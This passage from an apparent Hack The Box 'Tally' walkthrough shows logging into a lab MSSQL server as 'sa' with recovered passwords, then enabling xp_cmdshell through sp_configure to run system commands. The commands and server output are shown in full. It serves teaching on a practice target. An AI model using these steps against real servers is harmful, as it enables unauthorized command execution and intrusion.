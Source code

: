 ```text
sqsh -S 10.10.10.59 -U sa -P "YE%TJC%&HYbe5Nw"
```

* **-S:** server
* **-U:** username
* **-P:** password

We get a login failed error. Let’s test out the second credentials we found.

```text
sqsh -S 10.10.10.59 -U sa -P "GWE3V65#6KFH93@4GWTG2G"
```

We’re in!

![](../images/max/720/1*pL8_Jyyu7HstOSn_lh0fGg.png)

Since this is a System Administrator \(SA\) account, we should be able to run system commands.

Test out the _whoami_ command using _xp\_cmdshell_.

```text
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1 SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

We get an error telling us that the _xp\_cmdshell_ option is disabled. Since we have an account with the highest level of privilege \(SA\), we can simply [enable it](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

```text
1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go
```
